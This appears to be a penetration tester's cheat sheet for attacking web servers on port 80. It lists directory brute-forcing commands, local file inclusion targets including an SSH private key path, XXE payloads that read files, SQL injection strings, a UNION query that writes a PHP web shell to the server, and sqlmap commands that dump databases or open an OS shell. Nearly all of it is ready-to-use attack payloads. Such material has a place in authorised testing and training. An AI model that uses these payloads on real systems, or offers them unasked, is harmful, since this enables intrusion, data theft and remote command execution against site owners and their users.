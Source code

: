 # 80 - HTTP

```text
gobuster dir -u <target> -w <wordlist> -t 50
# also bruteforce extensions (php, txt, ...)
```

`< > ' " { } ;` dangerous special characters to check for

## Default admin controll

```text
/manager/html -> Tomcat
/phpmyadmin -> phpMyAdmin
/cdn-cgi
```

## Default files to check

```text
robots.txt
sitemap.xml

# always check for listable folders
```

## Nobrain tools

```text
nikto -host=http://<target>
dirb -r http://<target>
```

## PHP wrappers

```text
index.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

## Files readable by any user for local file inclusion

```text
/etc/passwd
```

```text
c:/windows/win.ini
c:/boot.ini
c:/windows/system32/drivers/etc/hosts
c:\Users\<username>\.ssh\id_rsa
```

## XXE

```text
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY yz SYSTEM 'file:///c:/windows/win.ini'>]>
<order>
    <quantity>3</quantity>
    <item>&yz;</item>
    <address>17th Estate, CA</address>
</order>
```

```text
<?xml version = "1.0"?>
<!DOCTYPE replace [
    <!ENTITY yz SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<order>
    <quantity>5</quantity>
    <item>&yz;</item>
    <address>vffvf</address>
</order>
```

## SQLi

```text
admin' OR 2=2; #
admin' OR 2=2 LIMIT 1; #
index.php?id=1 union all select 1, 2, 3,....
index.php?id=1 union all select 1, 2, @@version
index.php?id=1 union all select 1, 2, table_name from information_achema.tables
index.php?id=1 union all select 1, 2, column_name from information_achema.columns WHERE table_name='users'
index.php?id=1 union all select 1, username, password from users
index.php?id=1 union all select 1, 2, load_file('C:\boot.ini')
index.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'C:\xampp\htdocs\yz.php'
sqlmap -u http://<target>/index.php?id=1 -p "id"
sqlmap -u http://<target>/index.php?id=1 -p "id" --dbms=mysql --dump
sqlmap -u http://<target>/index.php?id=1 -p "id" --dbms=mysql --os-shell
```

```text
sqlmap -u 'http://<target>/dashboard.php?search=a' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls" [--os-shell]
```

### Default languages

```text
IIS -> .aspx
Tomcat -> .war
```

